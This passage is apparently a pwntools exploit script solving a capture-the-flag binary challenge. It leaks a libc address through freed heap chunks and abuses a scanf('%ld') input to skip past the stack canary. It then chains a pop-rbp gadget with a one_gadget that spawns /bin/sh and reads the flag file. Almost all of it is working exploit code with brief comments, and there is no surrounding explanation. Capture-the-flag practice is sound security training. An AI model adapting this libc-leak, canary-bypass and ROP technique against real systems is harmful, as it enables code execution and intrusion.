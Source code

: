 ```python
  sla('position: ', str(pos))

# To send payload in double format
def fmt(payload):
  sla(': ', repr(struct.unpack("d", p64(payload))[0]))

# Make 9 allocations
print('[+] Creating Zombienators..\n')
[create(128, i) for i in tqdm (range(9))]
print('\n[*] Done!\n')

# Free 8 items
print('[-] Deleting Zombienators..\n')
[remove(i) for i in tqdm (range(8))]
print('\n[*] Done!\n')

# Leak libc address
sla('>> ', '3')
ru('Slot [7]: ')
libc.address = int(u64(rl().strip().ljust(8, b'\x00'))) - 0x219ce0 
print(f'Libc base: {libc.address:#04x}')
rop = ROP(libc, base=libc.address)

# Perform ret2libc abusing the scanf("%ld")
loops = 38
sla('>> ', '4')
sla('attacks: ', str(loops))

# Fill the buffer and bypass canary
[sla(': ', '-') for i in range(loops-5)]
sla(': ', '-')

'''
Use og with these conditions met.
The only condition that is not met is rbp == NULL,
so we find a pop rbp ; ret gadget from libc 

0x50a47 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL
'''

# pop rbp ; ret 0x2a2e0
fmt(rop.find_gadget(['ret'])[0])
fmt(libc.address + 0x2a2e0)
fmt(0)
fmt(libc.address + 0x50a47)

# Bypass stderr and stdout to get flag
pause(1)
sl('cat flag*>&0')
r.interactive()
```
